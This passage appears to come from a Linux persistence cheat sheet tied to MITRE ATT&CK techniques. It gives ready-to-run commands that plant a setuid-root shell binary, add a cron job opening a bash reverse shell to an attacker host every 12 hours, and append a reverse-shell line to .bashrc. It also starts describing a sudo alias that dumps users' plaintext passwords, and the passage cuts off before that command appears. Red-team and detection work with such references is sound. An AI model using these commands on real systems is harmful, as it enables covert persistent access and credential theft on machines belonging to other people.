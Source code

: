 Required: root privilege

	$ Command:
	
	root@victim$ tempdir="/var/tmp"
	
	root@victim$ echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $tempdir/suid00r.c
	root@victim$ gcc $tempdir/suid00r.c -o $tempdir/suid00r 2>/dev/null
	root@victim$ rm $tempdir/suid00r.c
	root@victim$ chown root:root $tempdir/suid00r
	root@victim$ chmod 4777 $tempdir/suid00r

## Creating cron job

[MITRE ID: T1053.003](https://attack.mitre.org/techniques/T1053/003/)

The crontab file contains a list of tasks that you wish to execute on a regular basis, as well as the name of the command that manages them. Crontab stands for "cron table," as it executes tasks using the cron job scheduler. 

The adversary can create a reverse shell that points to their C2 server using the cron job every 12th hour. Below is a simple example of bash reverse shell as for the PoC.

Noted: `0 */12 * * *` means "At minute 0 past every 12th hour."

Required: root or normal user privilege

	$ Command:
	
	root@victim$ (crontab -l > .tab ; echo "0 */12 * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/$ATTACKERIP/4444 0>&1'" >> .tab ; crontab .tab ; rm .tab) > /dev/null 2>&1

## Creating .bashrc backdoor

[MITRE ID: T1546.004](https://attack.mitre.org/techniques/T1546/004/)

A bashrc file is a shell script file that Linux uses when starting up to load items like modules and aliases into a user's profile. So, whenever an interactive session is launched, the .bashrc file will load the reverse shell pointing to the adversary C2 server.

Required: root or normal user privilege

	$ Command:
	
	victim@server$ echo "(setsid bash 1>&/dev/tcp/$ATTACKERIP/5555 0>&1 & ) 2>/dev/null" >> ~/.bashrc

## Creating .bashrc alias

[MITRE ID: T1546.004](https://attack.mitre.org/techniques/T1546/004/)

Same as the .bashrc backdoor but it leverages Linux alias. When we often need to use a single large command several times, we construct an alias for it.
Alias is a shortcut command that performs the same functions as if we typed the entire command. 

As for the PoC, we use `sudo` alias. Whenever the user types sudo command for example "`sudo netstat -plnt`", the sudo alias will load then ask for the user's password and dump the plaintext password to the /tmp/dumper directory before the legitimate sudo binary from `/usr/bin/sudo` spawn.

